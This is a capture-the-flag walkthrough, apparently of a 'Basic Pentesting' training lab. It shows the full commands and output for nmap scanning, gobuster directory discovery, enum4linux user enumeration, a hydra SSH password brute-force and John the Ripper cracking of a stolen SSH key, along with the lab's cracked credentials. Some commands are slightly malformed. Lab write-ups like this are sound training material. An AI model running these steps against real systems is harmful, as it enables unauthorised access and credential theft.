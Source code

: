 
# Basic Pentesting Walkthrough

## Task 1: Deploy the machine and connect to our network
**Answer**: No answer needed.

---

## Task 2: Find the services exposed by the machine
**Answer**: No answer needed.

**Command**:
```bash
nmap -sV http://[Target_Machine_Ip] -T5
```

**Nmap Scan Results**:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-03 15:14 EEST
Warning: 10.10.15.50 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.15.50
Host is up (0.085s latency).
Not shown: 991 closed tcp ports (conn-refused)
PORT     STATE    SERVICE     VERSION
20/tcp   filtered ftp-data
22/tcp   open     ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
32/tcp   filtered unknown
80/tcp   open     http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
8009/tcp open     ajp13?
8080/tcp open     http-proxy?
8291/tcp filtered unknown
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 209.42 seconds
```

---

## Task 3: What is the name of the hidden directory on the web server (enter name without /)?
**Command**:
```bash
gobuster dir -u http://[Target_Machine_Ip] -w /usr/share/wordlists/dirb/big.txt
```

**Gobuster Scan Results**:
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.15.50
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 295]
/.htpasswd            (Status: 403) [Size: 295]
/development          (Status: 301) [Size: 316] [--> http://10.10.15.50/development/]
/server-status        (Status: 403) [Size: 299]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```
**Answer**: development

---

## Task 4: User brute-forcing to find the username & password
At this point, I will use the `enum4linux` tool to enumerate usernames from the target machine.

**Command**:
```bash
enum4linux -a [Target_Machine_IP]
```

This command specifically targets the usernames by leveraging SMB protocol enumeration.

**Results**:
```
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```

---

## Task 5: What is the username?
**Answer**: kay

---

## Task 6: What is the password?
To find the password, we will perform a brute force attack using the hydra tool.

**Command**:
```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt http://[Target_Machine_IP] ssh
```

**Hydra Results**:
```
[22][ssh] host: 10.10.15.50   login: jan   password: armando
```

**Answer**: armando

---

## Task 7: What service do you use to access the server (answer in abbreviation in all caps)?
**Answer**: SSH

---

## Task 8: Enumerate the machine to find any vectors for privilege escalation
**Answer**: No answer needed.

---

## Task 9: What is the name of the other user you found (all lower case)?
**Answer**: jan

---

## Task 10: If you have found another user, what can you do with this information?
**Answer**: No answer needed.

---

## Task 11: What is the final password you obtain?
When attempting to read the pass.bak file located in kay's folder, we encounter a permission error.

To bypass this, we can use the private key in the kay folder.

**Steps**:
1. Retrieve the id_rsa key and save it as id_rsa.txt.
2. Use John The Ripper to crack the passphrase.

**Command**:
```bash
python3 /PATH/ssh2john.py id_rsa.txt > decrypted
sudo john decrypted --wordlist=/usr/share/wordlists/rockyou.txt
```

Eventually, the passphrase is **beeswax**.

**Final Password**: h____________________________________________________y$$
